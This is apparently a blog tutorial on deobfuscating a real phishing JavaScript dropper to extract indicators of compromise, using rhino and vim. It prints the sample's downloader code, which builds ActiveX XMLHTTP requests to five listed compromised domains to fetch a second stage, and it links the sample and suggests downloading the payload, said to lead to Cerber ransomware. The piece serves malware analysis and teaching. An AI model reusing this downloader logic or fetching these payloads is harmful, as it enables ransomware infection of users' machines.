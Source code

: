 ```yaml
---
layout: post
title:  "Simple Js deobfuscation 1"
date:   2017-08-28 12:00:00 +0700
categories: Javascript deobfuscation
---
```


A first example of javascript deofuscation for IOC extraction.

## First hand on javascript deobfuscation
For this excercice we will use a really simple real javascript that was used on mass phishing campaign to drop payload into the target's computer.
You can find the malicious javascript here :

On hybrid-analysis :

**hash** : 0413a0c095230c5a1d9fd24c5526e381

(You need to have a free account on hybrid-analysis to be able to download sample) This website is really interessting if you are looking for sample to analyse :)
[Link to the Hybrid-analysis sample]( https://www.hybrid-analysis.com/download-sample/90d8e7b7149fff458d5ce7adc173dcf323788460da33247be9718f8930edc8a3?environmentId=100)

### Take care ! This sample is real and can be dangerous if you manipulate it in a real environment :)
I'm going to do this analysis on a linux system (SIFT workstation).

I'have installed rhino a little cli javascript shell. Really useful :)

But you can do big part of this exercice with Firefox using the console available when you type F12.
First check the file type :
{% highlight shell %}
file 0413a0c095230c5a1d9fd24c5526e381 0413a0c095230c5a1d9fd24c5526e381: ASCII text, with CRLF line terminators
{% endhighlight %}
... Nothing much, ok it's an ASCII text file we are safe to open it into any text editor (VIm, emacs, leafpad, nano ...).
Just by opening you see that the obfuscation used here is not advanced :
{% highlight javascript %}
var sder = "P"; var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
{% endhighlight %}

 We can see severals variables declaration, some of them are really self explanatory

* x : variable contains some domain/subdomain name. You already find your IOC ;)

* t4 : contains "http" must be used to declare the url where is stored the payload :)

* g2 : is pretty easy to understand to, just a concatenation of strings and another variable.

* pi6dnz : is more difficult but when you look at the type of character used you can see that they are hexadecimal value. If you look at your ascii table ...
{% highlight shell %}
man ascii
{% endhighlight %}

You can see that the hexadecimal value 70 = p 65 = e 6E = n
...p e n... ok it might be used somewhere else later ..
* m : this one is the hardest to understand, we will see it later.

Ok let's use rhino on this small parts.

If you don't have rhino you can install it on a ubuntu based distro just by typing :

{% highlight shell %}
apt-get install rhino
{% endhighlight %}

Then just start it :

{% highlight javascript %}
rhino js >
{% endhighlight %}

Just take the variable you want and copy paste it.
I'm going to use t4 and pi6dnz and print them using the print(); function (Simple :p)

{% highlight javascript %}
js> var pi6dnz = "\x70"+"\x65\x6E";
js> var t4 = "ht"+"tp";
js> print(t4);
http
js> print(pi6dnz);
pen
{% endhighlight %}

Ok i think you understand the concept now.
Let's continue with the other part of the js

{% highlight javascript %}
for (var i=0; i<x.length; i++)
{
var vDJmB = function(){ return new ActiveXObject(g2); }(); var e = vDJmB; try {
var raspbna2s=["\x6F"+pi6dnz]; e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false); e.send();
}
{% endhighlight %}

First we enter in a for loop with i incrementing.

Then a function declaration creating an ActiveXObject with the parameter g2. If you played a little bit with rhino you will find that :

{% highlight javascript %}
js> print(g2); Msxml2.XMLHTTP
{% endhighlight %}

Just after it, we can see the creation of an object called e.
{% highlight javascript %}
var e = vDJmB;
{% endhighlight %}
So e is a ActiveXObject.


Here we enter in a try and then a new declaration of variable :
{% highlight javascript %}
var raspbna2s=["\x6F"+pi6dnz];
{% endhighlight %}

We find pi6dnz back, 6F is the ascii for o so o + pen = .... ? ;)

And then the big query :

{% highlight javascript %}
e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false);
{% endhighlight %}

If you try to print this with rhino here there will be 2 little trick:
First you need to remove the e because it's a object. You also need to change i to the number 0 (it's related to the domain name list that we saw earlier. It's an array so incrementing i will change the domain name requested.

And there is also the false at the end to remove.


If you go to msdn.microsoft.com about the function used here you will find your scheme
{% highlight javascript %}
var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP.3.0"); xmlhttp.open("GET","http://localhost/books.xml", false);
xmlhttp.send();
{% endhighlight %}

In rhino add all variable or create a little js script :

{% highlight javascript %}
var sder = "P";
var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyCAIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
var raspbna2s=["\x6F"+pi6dnz];
var i = 0;
print(raspbna2s[0] + ""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?" + m);
{% endhighlight %}

Tada, you will see the full url requested by the javascript.

After this the script try to receive what was requested.

You will need to download with a wget the malicious script to continue :)

With a simple wget you can download the payload.

I you open it with vim you can see we have more obfuscated js.

Go back to your first js and let's look at the operation done on the answer of the server (the url that you downloaded trough wget.

{% highlight javascript %}  
reqty(e.responseText.split(m).join(zaima.substring(2,3)));
{% endhighlight %}

We can see that we have some kind of substition of the m variable and added at the end the third character of the variable zaima (that is a).

We can do the same kind of substition using vim and sed. Or any text editor that allow to replace character by other :)

So we have to replace LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k by a

{% highlight shell %}
vim JS.txt
:s/LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k/a/g
{% endhighlight %}

You will then have a JS with lots of variable incrementation var NXmef= "...." var NXmef+="..."
Lots of stuff are added to the string.
To easilty see what is inside this long string just check a the end of the JS. change the eval(NXmef) by a simple print

{% highlight javascript %}
print(NXmef);
{% endhighlight %}

The unobfuscated Js code will then be available with new IOC (new urls used :) ).
This javascript code download a executable that is a ransomwar : cerber.
